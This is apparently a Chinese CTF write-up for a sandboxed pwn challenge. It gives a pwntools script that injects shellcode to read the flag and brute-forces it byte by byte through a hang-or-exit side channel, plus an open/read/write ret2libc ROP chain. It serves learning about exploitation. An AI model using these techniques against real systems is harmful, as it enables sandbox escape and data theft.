Linux 为 mmap 分配虚拟内存时，总是从最接近 addr 的页边缘开始的，而且保证地址不低于 /proc/sys/vm/mmap_min_addr 所指定的值。

可以看到，mmap_min_addr = 65536 = 0x10000，因此刚才判断程序利用 mmap 函数在 0x10000 处开辟一个 page 的空间。

由于缺少write()函数，我们无法输出flag，可以进行单个字节的对比爆，即读取flag到一块内存区域，随后单字节爆破，在shellcode中设置loop循环，一旦cmp命中就让程序卡死，否则执行后面的exit因为沙箱禁用程序崩溃退出，根据程序的表现可以区分是否命中，注意因为服务器通信不稳定，每次读到一段flag就更新exp中的flag字符串继续向后爆破

payload如下

```py
#coding=utf-8
from pwn import *

context.update(arch='amd64',os='linux',log_level='info')

def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x10700
            mov dl,0x40
            xor rax,rax
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
            '''.format(dis,char))
    p.send(shellcode)
flag = "flag{"

for i in range(len(flag),35):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1)
            flag += chr(j)
            p.send('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break
        except:   
            p.close()
```



- 第一个框，这里其实就是open('./flag'),因为程序都是小端序的，我们要输入galf的16进制，程序才会解析为flag
- 第二个框，这里其实就是read(fd,0x10700,0x40)
- 第三个框，这里就是利用loop循环写的一个汇编语言单字节爆破，此时rsi经过传参保存的是flag的地址，利用cmp检查flag[index]是否等于需要的flag，若相等咋会卡在这个循环中，否则继续爆破

ret2libc ORW如下

```py
payload3  = b"./flag\x00\x00"                # bss+0x28 : flag path

# --- open("./flag", O_RDONLY) ---
payload3 += p64(pop_rdi)
payload3 += p64(bss + 0x28)                  # filename
payload3 += p64(pop_rsi)
payload3 += p64(0)                           # O_RDONLY
payload3 += p64(open_addr)

# --- read(3, bss+0x80, 0x40) ---
payload3 += p64(pop_rdi)
payload3 += p64(3)                           # fd = 3 (赌 fd)
payload3 += p64(pop_rsi)
payload3 += p64(bss + 0x80)                  # buffer
payload3 += p64(pop_rdx_rbx)
payload3 += p64(0x40)                        # size
payload3 += p64(0)                           # junk for rbx
payload3 += p64(read_addr)

# --- write(1, bss+0x80, 0x40) ---
payload3 += p64(pop_rdi)
payload3 += p64(1)                           # stdout
payload3 += p64(pop_rsi)
payload3 += p64(bss + 0x80)                  # buffer
payload3 += p64(pop_rdx_rbx)
payload3 += p64(0x40)                        # size
payload3 += p64(0)
payload3 += p64(write_addr)

# --- pivot，保持你原来的结构 ---
payload3 += p64(bss + 0x28)
payload3 += p64(leave_ret)

```
